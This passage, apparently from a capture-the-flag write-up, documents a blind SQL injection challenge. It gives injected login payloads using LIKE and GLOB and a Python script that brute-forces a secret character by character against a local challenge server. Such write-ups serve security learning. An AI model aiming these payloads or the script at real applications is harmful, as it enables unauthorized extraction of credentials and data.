 **Tools Used:**  
- Python `requests` library
- Knowledge of SQLite system tables

**Key Lessons Learned:**  
- SQL injection can be used to enumerate database schema.
- Understanding the underlying database system helps in crafting effective attacks.

---

## Level 7: Blind SQL Injection

**Problem Statement:**  
Extract the flag using blind SQL injection, where no direct error or data is returned.

**Approach:**  
- Used the login form to test for password characters one by one using `LIKE` and `GLOB`.
- Automated the process with a Python script to brute-force the flag character by character.

**Example Exploit:**
```python
# Test for password prefix
url = "http://challenge.localhost:80"
data = {'username': 'flag " OR password  LIKE "p%" -- -', 'password': 'pass'}
response = s.post(url, data=data)
print(response.text)

# Automated brute-force
import requests, string
s = requests.Session()
url = "http://challenge.localhost:80"
searchspace = string.ascii_letters + string.digits + '{}_.-'
solution = ''
end = "}"
while end:
    for c in searchspace:
        data = {'username': f'" OR password  GLOB "{solution}{c}*" -- -', 'password': 'pass'}
        response = s.post(url, data=data)
        if response.text.startswith("Hello"):
            solution += c
            print(solution)
            break
    if end == c:
        break
print("Flag is:", solution)
```

**Tools Used:**  
- Python `requests` library
- Python `string` module for brute-forcing

**Key Lessons Learned:**  
- Blind SQL injection requires creative use of application responses to infer data.
- Automating attacks can save significant time in blind scenarios.
- GLOB can be used for case-sensitive matching in SQLite.

---

## Level 8: *(Not Documented)*

--- 